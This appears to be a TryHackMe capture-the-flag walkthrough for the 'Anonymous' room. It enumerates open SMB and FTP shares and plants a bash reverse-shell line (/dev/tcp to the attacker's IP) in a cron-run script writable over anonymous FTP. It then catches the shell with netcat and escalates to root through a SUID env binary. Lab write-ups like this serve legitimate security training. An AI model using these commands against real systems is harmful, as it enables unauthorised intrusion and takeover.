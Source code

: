 # **Anonymous**
This is a writeup for the TryHackMe room [anonymous](https://tryhackme.com/room/anonymous).

The questions ask about ports, so let's start with an nmap scan.

```bash
nmap -sV $ip
```

![nmap_scan](assets/images/anonymous/nmap_scan.png)

This nmap scan shows us that ports 21, 22, 139 and 445 are open. Port 21 is used for FTP, port 22 is used for ssh and ports 139 and 445 are use for SMB.

Let's check for SMB shares.

```bash
smbmap -H $ip -R
```

![smbmap](assets/images/anonymous/smbmap.png)

This shows us two files that we can download, corgo2.jpg and puppos.jpeg.

```bash
smbget -R smb://$ip/pics
```

When prompted for a password, just press **ENTER**.

![smbget](assets/images/anonymous/smbget.png)

![corgo](assets/images/anonymous/corgo2.jpg)

![corgos](assets/images/anonymous/puppos.jpeg)

These look like they're just pictures of dogs but let's exiftool them just in case.

![exif](assets/images/anonymous/exif.png)

Nothing interesting there. SMB seems to be a dead end for now, let's check FTP.

```bash
ftp $ip
```

When prompted for a username input **anonymous**, and when prompted for a password press **ENTER**.

![ftp_shown](assets/images/anonymous/ftp_show.png)

The scripts folder has some interesting sounding files in it, so let's get those. The command `get` can be used to download files from FTP.

![ftp_get](assets/images/anonymous/ftp_get.png)

Let's see what those files are, **clean.sh** seem the most interesting so we'll check that first.

![clean-sh](assets/images/anonymous/clean-sh-cat.png)

It seems to delete temporary files, so maybe it's a cronjob? We'll look in to that in a minute, first lets see what those other files are.

![cleanuplog](assets/images/anonymous/cleanuplog.png)

Nothing useful there. Let's check **to_do.txt**, it's nothing interesting either.

Back to that **clean.sh** file, maybe we can add to that file and see if anything happens. We can use `curlftpfs` to mount and change the file.

First we need to create a folder for the files to mount to.

```bash
mkdir ftp
```

Then we run `curlftpfs`.

```bash 
sudo curlftpfs anonymous@$ip ftp/
```

![ftpfs](assets/images/anonymous/ftpfs.png)

Now we need to edit the **clean.sh** file, we can do that with any text editor but for now we'll just use `nano`.

```sh
sudo nano ftp/scripts/clean.sh
```

![nano1](assets/images/anonymous/nano1.png)

We're going to add a line to give us a reverse shell. Credit goes to the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) github repo for the reverse shell.

```bash
bash -i >& /dev/tcp/$yourip/4242 0>&1
```

![nano2](assets/images/anonymous/nano2.png)

Now we need to set up a netcat listener, we can use the following command for this.

```sh
nc -lnvp 4242
```

And now we wait...

![flag1](assets/images/anonymous/flag1.png)

Once we have a reverse shell we can print out the user flag. We should probably stabilise our shell, we can do that with python.

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
```

Now that that's done let's move on to priv-esc. First we'll check for **SUID** binaries.

```sh
find / -user root -perm -4000 -print 2>/dev/null
```

![suid](assets/images/anonymous/suid.png)

The only thing out of the ordinary there is `env`, so let's check [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) to see if they have any suggestions.

```sh
env /bin/sh -p
```

This will give us root and allow us to get the flag.

![root](assets/images/anonymous/root.png)

